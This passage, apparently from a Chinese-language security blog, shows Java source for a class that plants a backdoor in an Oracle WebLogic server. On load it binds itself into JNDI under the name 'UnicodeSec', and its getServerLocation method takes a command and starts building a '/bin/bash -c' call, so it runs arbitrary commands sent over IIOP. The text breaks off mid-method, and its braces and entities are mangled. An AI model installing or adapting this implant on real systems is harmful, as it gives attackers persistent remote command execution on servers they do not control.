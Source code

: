test的代码:

```
package org.iiop;

import com.tangosol.internal.util.invoke.Remotable;
import com.tangosol.internal.util.invoke.RemoteConstructor;
import weblogic.cluster.singleton.ClusterMasterRemote;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.rmi.RemoteException;
import java.util.ArrayList;
import java.util.List;

public class test implements Remotable, ClusterMasterRemote `{`

    static `{`
        try `{`
            String bindName = "UnicodeSec";
            Context ctx = new InitialContext();
            test remote = new test();
            ctx.rebind(bindName, remote);
            System.out.println("installed");
        `}` catch (Exception var1) `{`
            var1.printStackTrace();
        `}`
`}`

public test() `{`

`}`

    @Override
    public RemoteConstructor getRemoteConstructor() `{`
        return null;
`}`

    @Override
public void setRemoteConstructor(RemoteConstructor remoteConstructor) `{`

`}`

    @Override
public void setServerLocation(String var1, String var2) throws RemoteException `{`

`}`

    @Override
    public String getServerLocation(String cmd) throws RemoteException `{`
try `{`

            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null &amp;&amp; osTyp.toLowerCase().contains("win")) `{`
                isLinux = false;
            `}`
List&lt;String&gt; cmds = new ArrayList&lt;String&gt;();

            if (isLinux) `{`
                cmds.add("/bin/bash");
                cmds.add("-c");
```
